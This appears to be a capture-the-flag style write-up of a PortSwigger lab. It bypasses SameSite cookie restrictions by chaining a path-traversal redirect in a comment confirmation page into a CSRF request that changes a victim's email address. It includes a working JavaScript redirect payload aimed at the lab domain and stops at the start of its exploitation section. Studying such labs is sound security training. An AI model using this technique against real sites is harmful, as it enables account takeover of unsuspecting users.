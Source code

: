This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

# Vuln assessment

First find the redirect vulnerability.

Note that when a comment is posted the following request is issued:

![[redirect.png]]

It defines the `href` attribute of an HTML link element. It's possible to redirect the user to the `/my-account` page defining the `postId` parameter as:

```
3/../../my-account
```

Now the way to bypass `SameSite` restrictions is to note that the request to change the user email accepts both `GET & POST` methods and parameters. Knowing this it's possible to craft an exploit:

```html
<script>
    document.location = "https://0ae500bf03f4d03180d4d0e1004b0066.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=test4%40test.com%26submit=1";
</script>
```

The important part is here:

```
my-account/change-email?email=test1%40test.com%26submit=1
```

Which successfully executes the request to change the user email. 

# Exploitation

Now define an unused email and paste the payload in the exploit server:

